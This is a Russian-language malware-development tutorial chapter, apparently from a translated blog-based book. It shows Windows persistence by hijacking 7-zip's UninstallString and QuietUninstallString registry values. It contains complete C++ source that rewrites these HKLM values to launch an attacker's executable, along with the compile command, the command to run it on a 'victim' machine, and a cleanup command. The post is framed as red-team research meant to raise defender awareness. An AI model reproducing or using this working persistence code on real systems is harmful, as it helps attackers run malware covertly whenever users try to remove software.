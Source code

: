 \newpage
\subsection{79. разработка вредоносного ПО: закрепление (persistence) - часть 13. Захват логики удаления приложения. Простой пример на C++.}

﷽

![pers](./images/73/2022-10-04_21-03_1.png){width="80%"}    

Этот пост является результатом моего собственного исследования одного из интересных трюков закрепления вредоносного ПО: через захват файла удаления целевого приложения.     

### процесс удаления

Когда вы устанавливаете программу в системе Windows, она обычно указывает на свой собственный деинсталлятор. Они находятся в следующих ключах реестра:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<имя приложения>`    

и  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<имя приложения>`     

Так в чем же трюк? Нет никаких проблем с их заменой на команды, которые могут запустить любую другую программу. Когда пользователь выполняет деинсталлятор, выполняется команда, выбранная атакующим. Опять же, хорошая новость заключается в том, что для изменения этих элементов требуются привилегии, так как они находятся под ключом `HKLM`.     

### практический пример

Рассмотрим практический пример. Во-первых, выберем целевое приложение. Я выбрал `7-zip x64`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15_1.png){width="80%"}    

Затем проверим значения ключей реестра на корректность:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](./images/73/2022-10-04_20-08.png){width="80%"}    

Также я подготовил свое вредоносное приложение. Как обычно, это `meow-meow` "вредоносное ПО" :)    

![pers](./images/73/2022-10-04_20-10.png){width="80%"}    

Затем я создаю программу, которая выполняет мою логику для закрепления (`pers.cpp`):    


```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = 
  "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = 
  "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add 
    //"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\
    // 7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, 
    (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Как вы можете видеть, логика проста, мы просто обновляем целевые значения ключей в реестре.    

### демонстрация

Давайте посмотрим, как все работает на практике. Скомпилируем вредоносное ПО и скрипт закрепления:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/73/2022-10-04_20-09.png){width="80%"}    

И запускаем на машине жертвы - в моем случае `Windows 10 x64`:    

```powershell
.\pers.exe
```

![pers](./images/73/2022-10-04_20-59.png){width="80%"}    

Наконец, после перезагрузки системы попробовал удалить `7-zip`:    

![pers](./images/73/2022-10-04_20-13_1.png){width="80%"}    

![pers](./images/73/2022-10-04_20-15.png){width="80%"}    

![pers](./images/73/2022-10-04_21-01.png){width="80%"}    

![pers](./images/73/2022-10-04_21-03.png){width="80%"}    

Затем я посмотрел свойства `hack.exe` в Process Hacker 2:    

![pers](./images/73/2022-10-04_21-05.png){width="80%"}    

Как можно видеть, родительский процесс - `SystemSettings.exe`, который появляется при открытии настроек Windows. В нашем случае это "Добавление/Удаление программ". Идеально! =^..^=    

Есть небольшая загвоздка. Когда я попытался обновить ключ с путем `Z:\2022-10-04-malware-pers-13\hack.exe`, я получил ошибку:    

![pers](./images/73/2022-10-05_17-37.png){width="80%"}    

Возможно, можно использовать только пути внутри диска `C:\`.    

После завершения экспериментов очистка:    

```powershell
reg add \
"HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" \
/v "UninstallString" /t REG_SZ /d "C:\\Program Files\\7-zip\\Uninstall.exe" /f
```

![pers](./images/73/2022-10-05_17-50.png){width="80%"}    

### заключение

Конечно, возможно, этот трюк не так хорош для закрепления, так как он требует разрешений и участия пользователя-жертвы. Но почему бы и нет?    

Есть еще один трюк, связанный с установкой и удалением программ для закрепления, о нем я напишу в одном из будущих постов. Я все еще исследую эту возможность для red team.    

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-10-04-malware-pers-13)     
